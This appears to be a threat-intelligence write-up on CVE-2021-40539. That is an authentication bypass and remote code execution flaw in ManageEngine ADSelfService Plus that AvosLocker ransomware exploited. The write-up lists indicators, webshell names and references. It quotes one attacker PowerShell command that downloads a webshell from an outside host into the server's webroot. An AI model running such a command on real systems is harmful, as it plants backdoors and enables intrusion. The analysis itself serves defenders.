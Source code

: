 <h1> Introduction </h1>
Threat actors uncovered a significant vulnerability within ManageEngine's Software, Zoho, ADSelfService Plus, back in September 2021 which supports remote code execution after successful authentication bypass. ManageEngine ADSelfService Plus is a secure, web-based, end-user password reset management program. This software helps domain users to perform self service password reset, self service account unlock and employee self update of personal details in Microsoft Windows Active Directory. Many small to large corporations utilize this software for verifying credentials within the ticket management and documentation system.

For this exploit, attackers take advantage of the ManageEngine web servers being publicly exposed to the internet via port 80. This specific vulnerabilty includes an authentication bypass in ADSelfService Plus affecting the REST API URLs that could result in remote code execution. Rest API URLs are a progam interface that uses HTTP requests to access and use data. Within ADSelfService Plus, these are authenticated by a specific security filter. It was observed that attackers used specially crafted Rest API URLs that were able to bypass this security filter due to an error in normalizing the URLs before validation. This, in turn, gave attackers access to REST API endpoints, and they exploited the endpoints to perform subsequent attacks such as arbitrary command execution. One of the more famous attacks which utilized this initial access vector was the ransomware named "AvosLocker". 

https://www.kroll.com/en/insights/publications/cyber/avoslocker-ransomware-update

![image](https://github.com/jake-44/Knowledge-Base/assets/72994837/60a4747f-8bc7-457a-8bab-760941a62063)



<h1> IOCs and TTPs </h1>
In the case of our attack noted before, AvosLocker was seen in the wild, exploiting this known vulnerability. The threat actor utilized the vulnerability within ManageEngine to create a webshell named “help.jsp”. The webshell was created by a dropped Java Archive (.jar) named “stop.jar” that attempted to inject into “calc.exe” before creating “help.jsp” via encoded PowerShell scripts.

<br> **cmd.exe /x powershell -command Invoke-WebRequest -Uri hxxp://xx.xx.xx.xx/subshell.aspx -OutFile /ManageEngine/ADSelfServicePlus/webapps/adssp/help/admin-guide**

The webshell is then utilized to conduct initial discovery by running commands such as “whoami and “net user /domain” before placing two other webshells named “test.jsp” and “wg.jsp” on the server. The webshells “test.jsp” and “wg.jsp” appear to provide a simple text entry box, likely for executing commands on the server.


Some other techniques used include software such as:

**Dropper** – A trojan that drops a shell on the system

**Godzilla** – A Chinese language shell

**NGLite** – A backdoor for access  

<h2>Reverse Engineered Code</h2>

Unlike the targeted network, we are lucky that there are incidents of exploitation in the wild which utilized this vulnerability and the traffic was captured and back engineered to understand how this was is leveraged.

 ![image](https://github.com/jake-44/Knowledge-Base/assets/72994837/e4b002ac-4872-4fd2-b61a-06f6a54db838)

![image](https://github.com/jake-44/Knowledge-Base/assets/72994837/4c50face-3198-4b7b-9e34-a8152a05ade0)

The webshell was then utilized to conduct initial discovery by running commands such as “whoami and “net user /domain” before placing two other webshells named “test.jsp” and “wg.jsp” on the server. The webshells “test.jsp” and “wg.jsp” appear to provide a simple text entry box, likely for executing commands on the server.

![image](https://github.com/jake-44/Knowledge-Base/assets/72994837/af718a2a-d910-4993-a970-2cb8491f577b)


<h2>Conclusion</h2>

This vulnerability is dealt with through version patches and mitigation procedures documented online. However, some businesses rarely utilize EOL applications and software.


<h1>References</h1>

- https://www.trendmicro.com/en_us/research/22/e/avoslocker-ransomware-variant-abuses-driver-file-to-disable-anti-Virus-scans-log4shell.html
- https://msrc-blog.microsoft.com/2021/03/16/guidance-for-responders-investigating-and-remediating-on-premises-exchange-server-vulnerabilities/
- https://www.synacktiv.com/en/publications/how-to-exploit-cve-2021-40539-on-manageengine-adselfservice-plus.html#:~:text=For%20a%20little%20more%20confort%2C%20it%20is%20also%20possible%20to%20exploit%20the%20file%20upload%20to%20write%20a%20JSP%20webshell%20on%20the%20filesystem.%20It%20can%20then%20be%20moved%20into%20the%20webroot%20with%20the%20Java%20code%20execution. - Red Team Exploitation Example
- https://www.microsoft.com/security/blog/2020/02/04/ghost-in-the-shell-investigating-web-shell-attacks/
- https://attack.mitre.org/techniques/T1505/003/
- https://pentest-tools.com/blog/detect-zoho-rce-cve-2021-40539 
- https://www.manageengine.com/products/self-service-password/advisory/CVE-2021-40539.html - ManageEngine's write-up
